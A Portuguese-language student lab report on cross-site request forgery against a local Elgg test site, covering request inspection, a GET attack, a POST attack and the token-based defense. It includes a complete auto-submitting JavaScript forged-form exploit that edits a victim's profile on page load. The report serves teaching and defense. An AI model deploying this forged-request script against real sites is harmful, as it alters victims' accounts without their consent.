







# Laboratório 2 - Cross-Site request forgery

### Felipe Junio Rezende - 11711ECP007

### Murilo Guerreiro Badoco - 11711ECP010

## Tarefa 1 - Observar as requisições HTTP

A seguir, é possível observar uma requisição do tipo GET ao logar como Alice e acessar o seu perfil. Essa requisição não possui parâmetros na URL, mas precisa da informação contida no campo *Cookie,* que representa a sessão do usuário.



Em seguida, é feita uma requisição do tipo POST ao editar o perfil de Alice. Para essa requisição, além do *Cookie*, é necessário informar também o *Token, Timestamp* e os dados a serem alterados:


## Tarefa 2 - Ataque CSRF utilizando uma requisição GET

Utilizando a usuária Alice adicionamos Charlie para observar como é feita esta requisição pelo site, uma requisição GET é feita nesta URL [www.csrflabelgg.com/action/friends/add?friend=44&__elgg_ts=1617186090&__elgg_token=baWT8e_sGsqRttAmYr6f8w&__elgg_ts=1617186090&__elgg_token=baWT8e_sGsqRttAmYr6f8w](http://www.csrflabelgg.com/action/friends/add?friend=44&__elgg_ts=1617186090&__elgg_token=baWT8e_sGsqRttAmYr6f8w&__elgg_ts=1617186090&__elgg_token=baWT8e_sGsqRttAmYr6f8w)



Podemos observar que há um token e um timestamp para evitar possíveis fraudes, porém como informado no relatório ambos foram desabilitados. O objetivo é fazer com que Boby adicione Alice sem o seu consentimento, para isso criamos um blog post no site Elgg com o link para o site de ataque: [www.csrflabattacker.com](http://www.csrflabattacker.com) . Cujo conteúdo é o seguinte:

```html
<html>
	<h1>CSRF GET ATTACK</h1>
	
</html>
```

Após identificar que o ID de Boby é 43 realizamos um requisição GET por meio da tag `img` , a partir do momento que a vítima clicar entrar no site irá automaticamente adicionar Boby.

## Tarefa 3 - Ataque CSRF utilizando uma requisição POST

Neste ataque Boby deseja alterar a descrição do perfil pessoal de Alice. Para realiza-lo precisamos verificar como é feita esta alteração, notamos  estes elementos na requisição POST.



O roteiro nos forneceu o corpo do código JavaScript abaixo para nos auxiliar nesta tarefa, alteramos o código para se igualar a requisição de alteração e o substituímos no arquivo index.html com as devidas alteações.

```jsx
<html>
    <body>
    <h1>This page forges an HTTP POST request.</h1>
    <script type="text/javascript">
    function forge_post() {
        var fields;
        // The following are form entries need to be filled out by attackers.
        // The entries are made hidden, so the victim won't be able to see them.
        fields += "<input type='hidden' name='name' value='Alice'>";
        fields += "<input type='hidden' name='briefdescription' value='Boby is my Hero'>";
        fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
        fields += "<input type='hidden' name='guid' value='42'>";
    
        // Create a <form> element.
        var p = document.createElement("form");
    
        // Construct the form
        p.action = "http://www.csrflabelgg.com/action/profile/edit";
        p.innerHTML = fields;
        p.method = "post";
    
        // Append the form to the current page.
        document.body.appendChild(p);
        // Submit the form
        p.submit();
    }
    // Invoke forge_post() after the page is loaded.
    window.onload = function() { forge_post();}
    </script>
    </body>
</html>
```

Após Alice clicar no link da página de ataque o seu perfil se modificou para o seguinte



### Pergunta 1 - Como Boby identificaria o ID de usuário da Alice?

Boby poderia entrar no perfil da Alice e clicar no botão "Add fried", este botão envia uma requisição ao servidor com o ID de usuário da Alice, como podemos ver abaixo:



### Pergunta 2 - Se Boby quisesse atacar qualquer pessoa que acessasse sua página ele ainda conseguiria? Explique.

Não, pois o cross-site request forgery utiliza-se de uma vítima com sessão ativa. Para realizar o ataque Boby precisaria além deste requisito identificar qual é o ID de usuário da vítima e isto não seria possível.

## Tarefa 4 - Implementando medidas defensivas para o Elgg

Os tokens gerados pela habilitação das medidas defensivas fornecidas no relatório podem ser vistos aqui: 



Desta vez quando Alice entra no site malicioso de Boby um alerta informando a falta dos tokens é emitido:



Isto ocorre, pois quem realiza o ataque não tem acesso à sessão da vítima. É a partir da sessão que os tokens, valores hash md5, são gerados e validados no código backend do site.
